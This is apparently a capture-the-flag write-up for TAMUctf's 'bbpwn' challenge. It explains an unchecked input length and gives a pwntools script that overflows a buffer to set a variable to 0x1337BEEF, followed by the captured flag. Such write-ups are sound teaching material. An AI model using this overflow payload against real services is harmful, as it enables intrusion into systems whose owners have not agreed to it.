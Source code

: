 Decompiled main:

![img/bbpwn_0](img/bbpwn_0)

the length of the input is not checked. We can therefore overwrite v5 with 0x1337BEEF

Exploit:

```python
from pwn import *

v5 = 0x1337BEEF

payload = (("A"*32).encode())
payload += p32(v5)

p = remote('challenges.tamuctf.com', 4252)
print(p.recvuntil(': ').decode())
p.sendline(payload)
print(p.recvall().decode())
```

# FLAG
```
gigem{0per4tion_skuld_74757474757275}
```

